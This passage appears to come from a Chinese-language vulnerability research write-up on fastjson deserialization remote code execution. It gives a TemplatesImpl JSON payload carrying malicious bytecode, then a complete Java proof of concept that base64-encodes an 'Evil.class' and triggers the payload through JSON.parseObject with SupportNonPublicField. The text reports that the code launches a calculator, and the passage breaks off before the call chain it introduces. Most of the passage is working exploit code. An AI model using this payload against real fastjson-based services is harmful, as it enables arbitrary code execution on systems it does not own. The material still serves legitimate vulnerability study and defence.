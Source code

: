 `{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["evilCode"],"_name":"a.b","_tfactory":{},"_outputProperties":{}}`
* 成功构造的POC如下：

TemplateslmplDeserialize.java
```java
package com.bi3g0.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import org.apache.commons.io.IOUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import org.apache.commons.codec.binary.Base64;

public class TemplateslmplDeserialize {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void main(String[] args) {

        final String evilClassPath = "F:\\Common\\总结\\0day研究\\fastjson反序列化漏洞\\Coding\\fastjson_des_rce_demo" +
                "\\target\\classes\\com\\bi3g0\\demo\\Evil.class";
        String evilCode = readClass(evilClassPath);
//      System.out.println(evilCode);

        String evilJsonString = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_name\":\"a.b\"," +
                "\"_tfactory\":{}," +
                "\"_bytecodes\":[\"" + evilCode + "\"]," +
                "\"_outputProperties\":{}}";

        Object obj = JSON.parseObject(evilJsonString, Object.class, Feature.SupportNonPublicField);
        System.out.println(obj);
    }
}
```
* 执行后成功弹出计算器，完整执行调用链如下: